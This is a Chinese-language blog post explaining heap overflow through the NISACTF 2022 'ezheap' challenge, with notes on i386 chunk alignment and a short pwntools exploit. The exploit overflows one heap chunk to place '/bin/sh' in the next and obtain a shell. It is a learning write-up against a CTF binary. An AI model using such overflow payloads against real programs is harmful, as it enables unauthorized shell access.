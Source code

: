 # 堆溢出利用


## Heap Overflow

堆溢出的概念其实和栈溢出、缓冲区溢出的概念非常相似，而且就连利用方式也非常相似，因为chunk之间是连续的。那么只要有`read`或者`get`函数的不规范使用，依然可以通过当前的chunk修改相邻chunk的内容。但是这个威胁就小很多，因为heap中不会保存程序运行的状态内容，基本都是用户数据，所以在heap中没有办法劫持程序的运行流程（PC寄存器）。但是，heap中往往存在用户数据，复写后可能导致越权之类的现象出现。下面以一个非常简单的example理解heap overflow。

## [NISACTF 2022]ezheap

程序其实非常简单，就是连续call了两个0x16的malloc，然后只往第一个chunk写数据，通过heap overflow覆写第二个chunk的数据，然后利用system函数getshell。这里有一个要注意的点是由于是i386程序，0x16的malloc实际上要对齐到0x20的。由于相邻的两个chunk都有0x4的chunk_size，那我们输入0x20个字符就可以刚好覆盖到下一个chunk的data部分，写入`/bin/sh`即可。

我们先观察写入前的chunks：

![chunks](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231211172115171.png)

这里可以看出来0x21e29那个是top chunk。我们将数据写入：

![overflow](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231211172406437.png)

这边就发现一个很有意思的问题，就是data部分并不是紧跟着size的。而是空出了4个字节。我们再看下刚好输入0x16个字节的chunk情况：

![normal](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231211172702754.png)

我们发现它既在header补了4字节，又在chunk的末尾补了2字节🤣。这种对齐的方式还是挺让人难以捉摸的。不管了，反正最后成功getshell了。

![](https://cdn.jsdelivr.net/gh/thecoderalex/imgs@upload/2023/image-20231211172937995.png)

## Exploit

```python
from pwn import *

context.terminal=['tmux','splitw','-h']
elf = ELF('./pwn')
r = elf.process()
# r = remote('node5.anna.nssctf.cn',28186)

payload = b'a' * 0x20 + b'/bin/sh\x00'
r.recvuntil(b'Input:\n')
r.sendline(payload)

r.interactive()
```





---

> 作者: alextang  
> URL: https://alextang.top/articles/2023/12/heap_overflow/  


